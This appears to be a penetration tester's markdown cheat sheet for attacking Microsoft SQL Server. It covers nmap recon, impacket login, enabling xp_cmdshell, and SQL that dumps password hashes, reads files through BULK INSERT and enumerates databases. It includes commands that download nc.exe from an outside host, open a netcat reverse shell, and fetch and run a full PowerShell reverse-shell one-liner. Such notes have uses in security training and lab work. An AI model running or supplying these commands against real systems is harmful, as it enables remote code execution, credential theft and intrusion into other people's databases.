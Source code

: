 # sqli ms-sql

## Recon

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 IP
```

## [mssqlclient.py](https://github.com/SecureAuthCorp/impacket)

```bash
mssqlclient.py DOMAIN/USER:PASS@$IP [-port <>] [-windows-auth]
```

## xp_cmdshell

```bash
# to see if we are sysadmin
# returns 1
SELECT IS_SRVROLEMEMBER ('sysadmin')
SELECT IS_SRVROLEMEMBER('sysadmin', 'sa')
SELECT name FROM master..syslogins WHERE sysadmin = '1'

# xp_cmdshell for reverse shell
EXEC sp_configure 'Show Advanced Options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell "whoami";

# shells
EXEC xp_cmdshell "powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/nc.exe','c:\users\public\nc.exe');"
EXEC xp_cmdshell "c:\users\public\nc.exe -e cmd.exe 10.10.14.34 6969"
[OR]
# shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.34/shell.ps1');"
```

## ms-sql commands

```bash
# comments
--
/* <blah> */

# hostname
@@servername
host_name()

# version
@@version

# read-file
# [C:\boot.ini] OR [C:\\boot.ini]
CREATE TABLE kashz (line varchar(8000));
BULK INSERT kashz FROM '<FILE>';
DROP TABLE kashz;

# users
user_name()
system_user
user [user()]
| SELECT name FROM master..syslogins

# password (SHA-1)
# master.dbo.fn_varbintohexstr(password) => pass to hex-str
# master.sys.fn_varbintohexstr(password_hash) => pass to hex-str
| SELECT name, password FROM master..sysxlogins
| SELECT name, password_hash FROM master.sys.sql_logins

# databases
DB_NAME()
| SELECT name FROM master.sys.databases
| SELECT name FROM master.dbo.sysdatabases
| SELECT name FROM master ..sysdatabases
| EXEC sp_databases
SELECT DB_NAME(N)        # for N:1-n

# tables
SELECT name FROM <DB>..sysobjects WHERE xtype='U'

# cols
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name ='<TABLE>')
SELECT <DB>..syscolumns.name, TYPE_NAME(<DB>..syscolumns.xtype) FROM <DB>..syscolumns, <DB>..sysobjects WHERE <DB>..syscolumns.id=<DB>..sysobjects.id AND <DB>..sysobjects.name='<TABLE>'

# 9th row
SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) ORDER BY name DESC
```

## Config File Paths

* https://practicalsbs.wordpress.com/2016/07/03/sql-server-file-locations-for-default-instances/

```bash
\DATA\master.mdf
\BACKUP\master.mdf
```

## Error-based

Refer: [https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

```bash
# encode + as %2b if doing url-based.
# force the query to run and show output in error page
convert(int, @@version)--
```

## Full pwnage guide

* [https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

## .mdf extract

* https://github.com/xpn/Powershell-PostExploitation
* (known bug) https://github.com/xpn/Powershell-PostExploitation/issues/3

```bash
# fix in code
[System.Reflection.Assembly]::UnsafeLoadFrom($PSScriptRoot + "\OrcaMDF.RawCore.dll") | Out-Null
[System.Reflection.Assembly]::UnsafeLoadFrom($PSScriptRoot + "\OrcaMDF.Framework.dll") | Out-NUll

```

* https://blog.xpnsec.com/extracting-master-mdf-hashes/